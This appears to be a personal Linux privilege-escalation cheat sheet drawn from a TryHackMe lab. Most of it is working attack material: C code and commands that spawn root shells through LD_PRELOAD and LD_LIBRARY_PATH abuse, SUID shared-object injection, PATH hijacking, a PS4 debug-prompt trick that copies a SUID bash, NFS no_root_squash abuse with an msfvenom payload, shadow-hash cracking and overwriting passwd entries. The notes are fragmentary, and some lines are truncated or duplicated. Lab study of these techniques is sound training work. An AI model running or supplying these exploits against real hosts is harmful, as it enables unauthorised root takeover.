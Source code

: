 ###
```
sudo su - 
su - 
bash -p
```

### 
https://tryhackme.com/room/linuxprivesc


###sudo -l
```
Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

Exploitation

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id
```
```
sudo earlier than 1.8.26
Check *** pwfeedback https://github.com/saleemrashid/sudo-cve-2019-18634




history

find .

cat /etc/os-release
uname -a




```
```
https://www.hackingarticles.in/linux-privilege-escalation-automated-script/
https://github.com/belane/linux-soft-exploit-suggester
```
```
pspy
https://github.com/DominicBreuker/pspy

```
### SUID / SGID Executables - Abusing Shell Features (#2)
```Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p
```

```
Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Exploitation

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id
```
### SUID(ENV Variable )
```
Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id
```
```
---------------------------------------------
python -c 'import os;os.execl("/bin/sh","sh","-p")'
------------------------------------------------
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
Check the NFS share configuration on the Debian VM:

cat /etc/exports

Note that the /tmp share has root squashing disabled.
On your Kali box, switch to your root user if you are not already running as root:
sudo su

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's root user, make the file executable and set the SUID permission:
chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
/tmp/shell.elf
```

```
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

ls -l /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

ls -l /etc/shadow
mkpasswd -m sha-512 newpasswordhere

ls -l /etc/passwd
openssl passwd newpasswordhere
root:Z.5x9gGZx7J7U:0:0:root:/root:/bin/bash

 
```
### LD_PRELOAD
```
/home/kali/priv/linux/tools/sudo/preload.c

```
![image](https://user-images.githubusercontent.com/9059079/120900722-687b1e00-c604-11eb-9020-8b1b9e5b59c1.png)

```
/home/kali/priv/linux/tools/sudo/library_path.c
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
/tmp/rootbash -p
```
![image](https://user-images.githubusercontent.com/9059079/120907045-51e8bd00-c62c-11eb-85bd-c01fd4fdc4ba.png)
### Note that the tar command is being run with a wildcard (*) in your home directory.
![image](https://user-images.githubusercontent.com/9059079/120907077-b3a92700-c62c-11eb-80c9-b2d894c3684b.png)

![image](https://user-images.githubusercontent.com/9059079/120907091-cb80ab00-c62c-11eb-9b24-ec9a83439104.png)
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null


```

### The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection
```
/home/kali/priv/linux/tools/suid/libcalc.c
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
![image](https://user-images.githubusercontent.com/9059079/120907159-4944b680-c62d-11eb-8490-1ab5b6b7b339.png)

### SUID / SGID Executables - Environment Variables
```
gcc -o service /home/user/tools/suid/service.c

strings /usr/local/bin/suid-env
PATH=.:$PATH /usr/local/bin/suid-env
```
### /bin/bash --version In Bash versions <4.2-048 i
```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```
kdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

```
![image](https://user-images.githubusercontent.com/9059079/120907301-52825300-c62e-11eb-8807-4cdb22c86d89.png)

### capability
```
1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.
1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

```
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
